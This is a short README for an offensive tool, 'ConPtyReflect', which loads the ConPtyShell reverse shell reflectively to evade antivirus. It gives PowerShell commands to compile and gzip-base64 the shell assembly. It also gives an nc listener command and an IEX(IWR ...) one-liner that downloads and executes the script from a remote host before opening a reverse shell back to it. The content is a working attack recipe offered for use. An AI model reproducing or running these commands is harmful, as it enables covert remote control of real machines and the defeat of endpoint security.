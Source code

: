 # ConPtyReflect

Loads [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) assembly reflectively for AV evasion.

To make it work, I obtained the source and compiled it in `Developer PowerShell for VS 2022`:

```console
PS D:\Expt\ConPty> iwr https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/ConPtyShell.cs -o ConPtyShell.cs
PS D:\Expt\ConPty> csc.exe .\ConPtyShell.cs
```

Then I gzipped and base64 encoded the assembly:

```console
PS D:\Expt\ConPty> $fileBytes = [System.IO.File]::ReadAllBytes("D:\Expt\ConPty\ConPtyShell.exe")
PS D:\Expt\ConPty> $memoryStream = New-Object IO.MemoryStream
PS D:\Expt\ConPty> $gzipStream = New-Object IO.Compression.GzipStream($memoryStream, [IO.Compression.CompressionMode]::Compress)
PS D:\Expt\ConPty> $gzipStream.Write($fileBytes, 0, $fileBytes.Length)
PS D:\Expt\ConPty> $gzipStream.Close()
PS D:\Expt\ConPty> $base64String = [Convert]::ToBase64String($memoryStream.ToArray())
PS D:\Expt\ConPty> $base64String | Out-File "D:\Expt\ConPty\ConPtyShell.txt"
```

The script `ConPtyReflect.ps1` decodes this `ConPtyShell.txt` and loads it through reflection.

## Usage

Start a listener with:

```shell
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Invoke `ConPtyReflect.ps1`:

```shell
IEX(IWR http://10.xx.xx.xx:8000/ConPtyReflect.ps1 -UseBasicParsing)
Invoke-ConPtyReflect 10.xx.xx.xx 3001
```

## References

- [ConPtyShell](https://github.com/antonioCoco/ConPtyShell)
